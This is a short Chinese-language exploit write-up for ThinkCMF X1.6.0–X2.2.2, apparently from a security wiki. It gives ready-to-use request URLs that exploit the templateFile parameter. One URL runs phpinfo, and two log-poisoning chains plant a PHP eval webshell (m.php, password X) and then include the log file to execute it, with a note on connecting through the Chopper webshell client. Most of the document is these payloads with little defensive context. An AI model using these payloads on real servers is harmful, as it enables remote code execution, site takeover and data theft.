

### 漏洞详情 ###

### 影响版本 ###

ThinkCMF X1.6.0

ThinkCMF X2.1.0

ThinkCMF X2.2.0 

ThinkCMF X2.2.1 

ThinkCMF X2.2.2

### 漏洞详情 ###

**常规操作**

    http://wiki.bylibrary.cn/index.php?a=display&templateFile=README.md&content=%3C?php%20phpinfo();die();

**利用缓存文件getshell**

由于thinkcmf2.x使用了thinkphp3.x作为开发框架，默认情况下启用了报错日志并且开启了模板缓存，导致可以使用加载一个不存在的模板来将生成一句话的PHP代码写入data/runtime/Logs/Portal目录下的日志文件中，再次包含该日志文件即可在网站根目录下生成一句话木马m.php

日志文件格式为YY_MM_DD.log，如当前日期为2019年12月12日，日志文件为19_12_12.log，完整路径为

    data/runtime/Logs/Portal/19_12_12.log

**payload 一**

首先访问

    http://wiki.bylibrary.cn/?a=display&templateFile=%3C?php%20file_put_contents(%27m.php%27,%27%3C%3fphp+eval($_POST[%22X%22])%3b%3F%3E%27);die();?%3E
然后请求

    http://wiki.bylibrary.cn/?a=display&templateFile=data/runtime/Logs/Portal/YY_MM_DD.log

即可在http://www.0-sec.org/根目录生成m.php，密码是X

payload 二

首先访问

    http://wiki.bylibrary.cn/?a=display&templateFile=%3C%3F%70%68%70%20%65%76%61%6C%28%24%5F%50%4F%53%54%5BX%5D%29%3B%3F%3E
然后菜刀链接（密码也是x）

    http://wiki.bylibrary.cn/?a=display&templateFile=data/runtime/Logs/Portal/YY_MM_DD.log